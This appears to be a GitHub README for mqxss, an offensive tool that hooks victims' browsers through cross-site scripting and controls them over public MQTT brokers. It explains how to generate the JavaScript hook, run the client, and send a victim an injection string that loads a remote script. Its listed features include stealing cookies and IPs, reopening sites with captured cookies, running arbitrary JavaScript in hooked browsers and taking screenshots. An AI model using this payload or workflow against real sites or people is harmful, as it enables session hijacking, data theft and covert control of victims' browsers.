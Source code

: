 # mqxss


## **mqxss acts as a client to communicate with hooked browsers over MQTT**



![Screenshot from 2023-07-03 15-15-35](https://github.com/grampae/mqxss/assets/36344197/d5fae62a-bc5c-4d98-b45e-03cdf541e979)




The benefit to using this over beef or xsshunter is that besides hosting the js payload there is no infra setup, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.
 

The client utilizes the python paho.mqtt library while the js payload utilizes 'mqttws31.min.js' which it pulls from here 'https://cdnjs.cloudflare.com/ajax/libs/paho-mqtt/1.0.1/mqttws31.min.js'.
 
***
 
## Directions

![Screenshot from 2024-01-17 11-34-59](https://github.com/grampae/mqxss/assets/36344197/4ac417e6-d61c-4859-9d37-690bdba6cc3c)

 
**To generate a JS payload** to hook browsers with set the `-g` flag at runtime along with your broker, port and topic variables.  Doing so will create your payload in the /js/ folder.  

**To run the client** provide your broker, port, and topic as so 
 
`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname`

**To run the client with credentials** provide your broker, port, user name, password and topic as so 

`mqxss.py -p 8081 -b some.mqtt.broker.com -t mytopicname -u username -pw password`
  
**Send your XSS payload** to the victim while the mqxss client is running, ex: `'"><script src=https://example.com/x.js async></script>` or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

***
 
**Features:**

- **js payload utilizes MQTT QoS 1 and Last Will, mqxss will be notified of disconnects or connects that occur while client is not connected to the broker**
- **generate js payload at runtime to hook browsers with**
- **currently only works with mqtt brokers that use secure websockets**
- **open hooked browser location with captured cookies in browser for convenience**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **screenshot of hooked browser**
- **set user , password  for brokers that require it at runtime**
- **pushover notification by setting ptoken and userkey variables in mqxss.py, then utilizing the -po command line flag**
